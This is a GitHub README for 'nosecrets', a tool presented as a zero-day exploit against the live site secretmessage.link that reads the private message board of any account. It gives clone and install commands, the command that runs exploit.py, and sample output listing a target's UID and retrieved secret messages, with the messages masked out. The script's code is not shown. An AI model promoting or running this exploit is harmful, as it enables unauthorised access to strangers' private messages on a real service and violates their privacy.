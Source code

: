 # nosecrets
https://www.secretmessage.link/ 0day exploit | read message board of any accounts

## Installation
```bash
git clone https://github.com/jmrcsnchz/nosecrets.git
```
```bash
pip3 install requests
```
```bash
pip3 install BeautifulSoup
```

## Usage
```bash
cd nosecrets
```
```bash
python3 exploit.py
```

```
Target Link: > https://www.secretmessage.link/secret/xXXxXXXXXxxxX/
Secret Message 2021 | xxxxxxxxx - Secret Message 2021
[+] Target UID: 845504
Getting Messages.....
[+] Discovered 3 Secret Messages

(1) xxxxxxxxxxx
(2) xxxxxxxxxxxxxxxxxx
(3) xxxxxxxxxxxxxxxxxxxxxxxx
```
